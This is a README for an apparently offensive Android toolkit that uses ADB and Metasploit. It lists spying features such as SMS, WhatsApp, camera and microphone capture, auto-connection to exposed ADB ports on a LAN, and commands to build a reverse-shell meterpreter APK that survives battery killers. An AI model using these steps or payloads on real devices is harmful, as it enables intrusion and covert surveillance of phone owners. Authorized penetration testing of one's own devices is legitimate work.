





<div align="center">
  
# Andro-DLS
  
### Android device management & remote control toolkit (DLS Lab).

An all-in-one hacking tool written in `Python` to remotely exploit and control
Android devices via `ADB` (Android Debug Bridge), a persistent no-root agent
over the internet tunnel (portmap), and `Metasploit`-style staging.


</div>

## Table of contents

- [Overview](#overview)
- [Screenshots](#screenshots)
- [Features](#features)
- [Requirements](#requirements)
- [Installing dependencies](#installing-dependencies)
- [Getting started](#getting-started)
- [Device setup tutorial](#device-setup-tutorial)
- [Compatibility](#compatibility)
- [Installing tools manually](#installing-tools-manually)
- [Disclaimer](#disclaimer)
- [Developer](#developer)
- [Support](#support)

---

## Overview

#### Complete automation to get a Meterpreter session in one click

This tool can automatically **create**, **install**, and **run** a payload on the target device using **Metasploit-Framework** and **ADB** to take full control of the Android device in one click if the device has an open ADB port on `TCP 5555`.

The goal of this project is to make penetration testing and vulnerability assessment on Android devices easy. You no longer need to memorize commands and arguments—Andro-DLS does it for you. Using this tool, you can test the security of your Android devices easily.

> [!TIP]
> **Andro-DLS** can also be used as a complete ADB toolkit to perform various operations on Android devices over Wi‑Fi as well as USB.

---

## Screenshots







---

## Features

| Feature                                  | Description                                                                                                                                                                                                                                                                                                                                                                  |
| ---------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Connect a device**                     | Connect to a device remotely using ADB.                                                                                                                                                                                                                                                                                                                                      |
| **List connected devices**               | Show all devices currently attached to ADB.                                                                                                                                                                                                                                                                                                                                  |
| **Disconnect all devices**               | Disconnect every ADB session.                                                                                                                                                                                                                                                                                                                                                |
| **Multi-device selection**               | If several ADB devices are connected (USB or network), choose which device to use for the session (`ANDROID_SERIAL`).                                                                                                                                                                                                                                                        |
| **Stop ADB server**                      | Stop the ADB server process.                                                                                                                                                                                                                                                                                                                                                 |
| **Access device shell**                  | Open an interactive shell on the connected device.                                                                                                                                                                                                                                                                                                                           |
| **Keycodes**                             | Send keycodes to control the device remotely.                                                                                                                                                                                                                                                                                                                                |
| **Unlock device**                        | Turn the screen on, swipe up, and enter a password when needed.                                                                                                                                                                                                                                                                                                              |
| **Lock device**                          | Lock the device.                                                                                                                                                                                                                                                                                                                                                             |
| **Restart / reboot**                     | Restart or reboot the device to `System`, `Recovery`, `Bootloader`, or `Fastboot`.                                                                                                                                                                                                                                                                                           |
| **Power off**                            | Power off the target device.                                                                                                                                                                                                                                                                                                                                                 |
| **Screenshot**                           | Take a screenshot and pull it to the computer automatically.                                                                                                                                                                                                                                                                                                                 |
| **Screen recording**                     | Record the target device’s screen for a specified time and pull the recording to the computer automatically.                                                                                                                                                                                                                                                                 |
| **Anonymous screenshot / screen record** | Take screenshots or screen recordings and remove the file from the target device afterward.                                                                                                                                                                                                                                                                                  |
| **Mirror and control**                   | Mirror the screen and control the target device.                                                                                                                                                                                                                                                                                                                             |
| **List files and folders**               | List all files and folders on the target device.                                                                                                                                                                                                                                                                                                                             |
| **Download from device**                 | Download a file or folder from the target device.                                                                                                                                                                                                                                                                                                                            |
| **Send to device**                       | Send a file or folder from the computer to the target device.                                                                                                                                                                                                                                                                                                                |
| **Copy WhatsApp data**                   | Copy all WhatsApp data to the computer.                                                                                                                                                                                                                                                                                                                                      |
| **Copy screenshots**                     | Copy all screenshots to the computer.                                                                                                                                                                                                                                                                                                                                        |
| **Copy camera photos**                   | Copy all camera photos to the computer.                                                                                                                                                                                                                                                                                                                                      |
| **Camera live**                          | Stream live video from the front or back camera on the target device.                                                                                                                                                                                                                                                                                                        |
| **Dump SMS**                             | Export all SMS from the device to the computer.                                                                                                                                                                                                                                                                                                                              |
| **Dump contacts**                        | Export all contacts from the device to the computer.                                                                                                                                                                                                                                                                                                                         |
| **Dump call logs**                       | Export all call logs from the device to the computer.                                                                                                                                                                                                                                                                                                                        |
| **Run an app**                           | Launch an application on the device.                                                                                                                                                                                                                                                                                                                                         |
| **Install APK**                          | Install an APK from the computer to the target device.                                                                                                                                                                                                                                                                                                                       |
| **Install split APKs**                   | Install apps shipped as multiple APK splits (e.g. split bundles).                                                                                                                                                                                                                                                                                                            |
| **Uninstall an app**                     | Remove an installed application.                                                                                                                                                                                                                                                                                                                                             |
| **List installed apps**                  | List all apps installed on the target device.                                                                                                                                                                                                                                                                                                                                |
| **Extract APK**                          | Extract the APK from an installed app.                                                                                                                                                                                                                                                                                                                                       |
| **Force-stop app**                       | Force-stop a running application.                                                                                                                                                                                                                                                                                                                                            |
| **Clear app data**                       | Clear storage/data for a chosen app (factory reset for that app).                                                                                                                                                                                                                                                                                                            |
| **Restart app**                          | Restart an application (force-stop then relaunch).                                                                                                                                                                                                                                                                                                                           |
| **Grant / revoke permission**            | Grant or revoke a runtime permission for an app.                                                                                                                                                                                                                                                                                                                             |
| **Open a link**                          | Open a URL on the target device.                                                                                                                                                                                                                                                                                                                                             |
| **Display a photo**                      | Show an image or photo on the target device.                                                                                                                                                                                                                                                                                                                                 |
| **Play audio**                           | Play an audio file on the target device.                                                                                                                                                                                                                                                                                                                                     |
| **Play video**                           | Play a video on the target device.                                                                                                                                                                                                                                                                                                                                           |
| **Send SMS**                             | Send SMS messages through the target device.                                                                                                                                                                                                                                                                                                                                 |
| **Device information**                   | Read device information.                                                                                                                                                                                                                                                                                                                                                     |
| **Battery information**                  | Read battery status and related details.                                                                                                                                                                                                                                                                                                                                     |
| **Record microphone audio**              | Record audio from the microphone.                                                                                                                                                                                                                                                                                                                                            |
| **Stream microphone audio**              | Stream live microphone audio.                                                                                                                                                                                                                                                                                                                                                |
| **Record device audio**                  | Record internal device audio.                                                                                                                                                                                                                                                                                                                                                |
| **Stream device audio**                  | Stream live device audio.                                                                                                                                                                                                                                                                                                                                                    |
| **Hack device completely**               | Automated Metasploit flow: fetch your `IP address` to set `LHOST`; create a payload with `msfvenom`, install it, and run it on the target device; launch and configure **Metasploit-Framework** to obtain a `meterpreter` session. A `meterpreter` session means the device is fully compromised via Metasploit-Framework, and you can run further actions from the session. |
| **LAN network scan**                     | Discover hosts on the local network to help find a target IP address; probe TCP ports `5555` and `5554` with service detection and show ADB-related fingerprints and hints for likely Android/ADB targets.                                                                                                                                                                   |
| **TCP port forwarding**                  | Forward TCP ports over ADB, including reverse forwarding.                                                                                                                                                                                                                                                                                                                    |
| **Save logcat snippet**                  | Capture a slice of `logcat` output and save it to a file on the computer.                                                                                                                                                                                                                                                                                                    |
| **Live logcat stream**                   | Stream `logcat` live from the device.                                                                                                                                                                                                                                                                                                                                        |
| **Network snapshot**                     | Show a snapshot of network interfaces and connectivity on the device.                                                                                                                                                                                                                                                                                                        |
| **Developer settings**                   | Open the system **Developer options** screen on the device.                                                                                                                                                                                                                                                                                                                  |
| **Read locale**                          | Read locale and language settings from the device.                                                                                                                                                                                                                                                                                                                           |
| **Screen stay-on**                       | Set `svc power stayon` (stay on over USB, stay on always, or turn stay-on off).                                                                                                                                                                                                                                                                                              |
| **Wi‑Fi status dump**                    | Dump detailed Wi‑Fi status from the device.                                                                                                                                                                                                                                                                                                                                  |
| **WLAN IP info**                         | Show WLAN IP addressing information.                                                                                                                                                                                                                                                                                                                                         |
| **Wi‑Fi radio toggle**                   | Turn the Wi‑Fi radio on or off.                                                                                                                                                                                                                                                                                                                                              |
| **Ping connectivity**                    | Run ping checks against a host to test connectivity.                                                                                                                                                                                                                                                                                                                         |
| **Saved Wi‑Fi networks**                 | List saved Wi‑Fi networks known to the device.                                                                                                                                                                                                                                                                                                                               |
| **Root heuristics**                      | Heuristic checks for common signs of root access.                                                                                                                                                                                                                                                                                                                            |

---

## Requirements

- [`python3`](https://www.python.org/) — Python 3.10 or newer
- [`pip`](https://pip.pypa.io/en/stable/installation/) — Package installer for Python
- [`adb`](https://developer.android.com/studio/command-line/adb) — Android Debug Bridge (ADB) from Android SDK Platform Tools
- [`metasploit-framework`](https://www.metasploit.com/) — Metasploit-Framework (`msfvenom` and `msfconsole`)
- [`scrcpy`](https://github.com/Genymobile/scrcpy) — scrcpy
- [`nmap`](https://nmap.org/) — Nmap

---

## Installing dependencies

Use the bundled installer to set up all dependencies automatically. It detects your OS and uses the appropriate package manager.

### Linux / macOS / Termux

```
chmod +x install.sh
./install.sh
```

To install specific tools only: `./install.sh --components adb,nmap,pip`  
For per-component prompts: `./install.sh --interactive`

### Windows

Run PowerShell **as Administrator**, then:

```
Set-ExecutionPolicy -Scope Process Bypass
.\install.ps1
```

To install specific tools only: `.\install.ps1 -Components adb,nmap,pip`  
For per-component prompts: `.\install.ps1 -Interactive`

### From Andro-DLS

If a dependency is missing, the program shows a **Missing Dependencies** warning. Press **`I`** to run the installer, **`Y`** to continue anyway, or **`N`** to exit.

---

## Getting started

> [!IMPORTANT]
> **Andro-DLS** requires Python version **3.10 or higher**. Please update Python before running the program.

### Linux and macOS

Make sure all [required](#requirements) software is installed.

```
git clone https://github.com/Dls-geek/Andro-DLS.git
cd Andro-DLS/
```

```
python3 -m venv .venv
source .venv/bin/activate
pip install -r requirements.txt
```

```
python3 androdls.py
```

> [!TIP]
> You only need to activate the virtual environment (`source .venv/bin/activate`) each time you open a new terminal before running the program.

### Windows

Make sure all [required](#requirements) software is installed.

```
git clone https://github.com/Dls-geek/Andro-DLS.git
cd Andro-DLS/
```

```
python -m venv .venv
.\.venv\Scripts\activate
pip install -r requirements.txt
```

1. Download and extract the latest `platform-tools` from [here](https://developer.android.com/studio/releases/platform-tools.html#downloads).

2. Copy all files from the extracted `platform-tools` or `adb` directory into the **Andro-DLS** directory, then run:

```
python androdls.py
```

---

## Device setup tutorial

### Setting up an Android phone for the first time

- **Enabling Developer Options**

1. Open `Settings`.
2. Go to `About Phone`.
3. Find `Build Number`.
4. Tap `Build Number` seven times.
5. Enter your pattern, PIN, or password to enable the `Developer options` menu.
6. The `Developer options` menu will now appear in your Settings menu.

- **Enabling USB debugging**

1. Open `Settings`.
2. Go to `System` > `Developer options`.
3. Scroll down and enable `USB debugging`.

- **Connecting with a computer**

1. Connect your Android device and the `adb` host computer to the same Wi‑Fi network.
2. Connect the device to the host computer with a USB cable.
3. Open a terminal on the computer and run the following command:

```
adb devices
```

4. A pop-up will appear on the Android phone when you connect to a new PC for the first time: `Allow USB debugging?`.
5. Select `Always allow from this computer`, then tap `Allow`.
6. Then, in the terminal, run the following command:

```
adb tcpip 5555
```

7. You can now connect the Android phone to the computer over Wi‑Fi using `adb`.
8. Disconnect the USB cable.
9. Go to `Settings` > `About Phone` > `Status` > `IP address` and note the phone’s `IP address`.
10. Run **Andro-DLS**, choose `Connect a device`, and enter the target's `IP address` to connect over Wi‑Fi.

### Connecting the Android phone the next time

1. Connect your Android device and host computer to the same Wi‑Fi network.
2. Run **Andro-DLS**, choose `Connect a device`, and enter the target's `IP address` to connect over Wi‑Fi.

---

## Compatibility

This tool is tested on:

- ✅ Ubuntu
- ✅ Linux Mint
- ✅ Kali Linux
- ✅ Fedora
- ✅ Arch Linux
- ✅ Parrot Security OS
- ✅ Windows 11
- ✅ Termux (Android)

> [!NOTE]
> New features are primarily tested on **Linux**, so **Linux** is recommended for running Andro-DLS.
> Some features might not work properly on Windows.

---

## Installing tools manually

If you prefer to install tools yourself, or the automatic installer is not available for your platform, use the sections below.

### ADB

#### Linux

Open a terminal and run the following commands:

- **Debian / Ubuntu**

```
sudo apt update
```

```
sudo apt install adb
```

- **Fedora**

```
sudo dnf install android-tools
```

- **Arch Linux / Manjaro**

```
sudo pacman -Sy android-tools
```

For other Linux distributions, see: [Android platform-tools downloads](https://developer.android.com/studio/releases/platform-tools#downloads)

#### macOS

Open a terminal and run the following command:

```
brew install android-platform-tools
```

Or download from: [Android platform-tools downloads](https://developer.android.com/studio/releases/platform-tools.html#downloads)

#### Windows

Download from: [Android platform-tools downloads](https://developer.android.com/studio/releases/platform-tools.html#downloads)

#### Termux

```
pkg update
```

```
pkg install android-tools
```

### Metasploit-Framework

#### Linux and macOS

```
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
```

- **macOS (Homebrew)** — Metasploit is distributed as a [Homebrew Cask](https://formulae.brew.sh/cask/metasploit) (not `brew install` without `--cask`):

```
brew install --cask metasploit
```

Or follow: [Installing Metasploit on Linux / macOS](https://docs.metasploit.com/docs/using-metasploit/getting-started/nightly-installers.html#installing-metasploit-on-linux--macos)

Or visit: [Metasploit download](https://www.metasploit.com/download)

#### Windows

Visit: [Metasploit download](https://www.metasploit.com/download)

Or see: [Windows: antivirus and installers](https://docs.metasploit.com/docs/using-metasploit/getting-started/nightly-installers.html#windows-anti-virus-software-flags-the-contents-of-these-packages)

### scrcpy

Visit the `scrcpy` GitHub page for the latest installation instructions: [scrcpy — get the app](https://github.com/Genymobile/scrcpy#get-the-app)

**On Windows**: Copy all files from the extracted **scrcpy** folder into the **Andro-DLS** folder.

> [!IMPORTANT]  
> If `scrcpy` is not available for your Linux distribution (for example **Kali Linux**), you can install it manually ([Linux guide](https://github.com/Genymobile/scrcpy/blob/master/doc/linux.md))
> or build it in a few steps ([Build guide](https://github.com/Genymobile/scrcpy/blob/master/doc/build.md#build-scrcpy)).

### Nmap

#### Linux

Open a terminal and run the following commands:

- **Debian / Ubuntu**

```
sudo apt update
```

```
sudo apt install nmap
```

- **Fedora**

```
sudo dnf install nmap
```

- **Arch Linux / Manjaro**

```
sudo pacman -Sy nmap
```

For other Linux distributions, see: [Nmap download](https://nmap.org/download.html)

#### macOS

Open a terminal and run the following command:

```
brew install nmap
```

Or visit: [Nmap download](https://nmap.org/download.html)

#### Windows

Download and install the latest stable release: [Nmap for Windows](https://nmap.org/download.html#windows)

#### Termux

```
pkg update
```

```
pkg install nmap
```

---

## ⭐ Custom features (this fork)

### 1. Auto-Connect Device (menu option 1)

One-key connection, no manual IP entry:

1. **USB attached** → the tool runs `adb tcpip 5555`, reads the device's Wi‑Fi IP, and connects over the network automatically.
2. **No USB** → it scans your LAN (port 5555) for Android/ADB devices and connects to the first hit.
3. If the phone shows an *Allow USB debugging?* popup, accept it and press **1** again.

### 2. Structured downloads

All pulled data is saved under a **device-name folder** with per-type categories:

```
Downloaded-Files/
└── Infinix_HOT_50_Pro/
    ├── Screenshots/       # screenshot + anonymous screenshot
    ├── Screen-Records/    # screenrecord + anonymous record
    ├── Audio/             # mic audio + device audio
    ├── Downloads/         # manual file pull
    ├── Data-Dumps/        # SMS, contacts, call logs
    ├── Logs/              # logcat + wifi dump
    ├── Apps/              # extracted APKs
    ├── Media/             # copy Camera / Screenshots folder
    └── WhatsApp/          # WhatsApp data
```

### 3. Modern Android payload builder

`msfvenom`'s stock Android payload (targetSdk 17) is rejected by Android 11+. Build a fixed, signed APK with:

```bash
# normal version
./build_payload.sh <YOUR_LHOST> <LPORT> payload.apk

# foreground-service version (bypasses aggressive battery killers:
# Infinix/Transsion XOS, Xiaomi, Oppo — recommended)
./build_payload.sh --fgs <YOUR_LHOST> <LPORT> payload-fgs.apk

# USB-only session (no Wi-Fi IP needed)
./build_payload.sh 127.0.0.1 4444 payload-usb.apk
# then on the phone: adb reverse tcp:4444 tcp:4444
```

What it does: msfvenom → apktool decode → minSdk 21 / targetSdk 34 → `android:exported` fixes → optional FGS smali patch → resources.arsc/manifest STORED (Android 11+ rule) → zipalign → apksigner sign.

Requires: `apktool.jar` (set `APKTOOL_JAR=/path/to/apktool.jar`), Android SDK build-tools (default `/home/div-admin/Android/Sdk/build-tools/35.0.0`, override with `BUILD_TOOLS=`), and `msfvenom`.

Alternative byte-level patch: `python patch_targetsdk.py input.apk output.apk 34`

### 4. Portable bundled binaries

`adb` and `scrcpy` (v3.3.3) ship inside the repo — no installation needed. The tool prefers the bundled **scrcpy 3.3.3** over any system scrcpy because older distro versions (e.g. 1.25 on Ubuntu 24.04) crash on Android 13+ (`addPrimaryClipChangedListener` NoSuchMethodException).

---

## Disclaimer

- This project and its developer do not promote any illegal activity and are not responsible for any misuse or damage caused by this project.
- This project is for educational purposes only.
- Please do not use this tool on other people’s devices without their permission.
- Do not use this tool to harm others.
- Use this project responsibly and only on your own devices or with explicit authorization.
- It is the end user’s responsibility to obey all applicable local, state, federal, and international laws.

---

## Developer

**Dls-geek** - [@Dls-geek](https://github.com/Dls-geek/)

*Originally based on [PhoneSploit-Pro](https://github.com/AzeemIdrisi/PhoneSploit-Pro) by [Azeem Idrisi](https://github.com/AzeemIdrisi/).*

<hr>

Copyright © 2026 Khurshid Jhon & Dls-geek Team (github.com/Dls-geek)
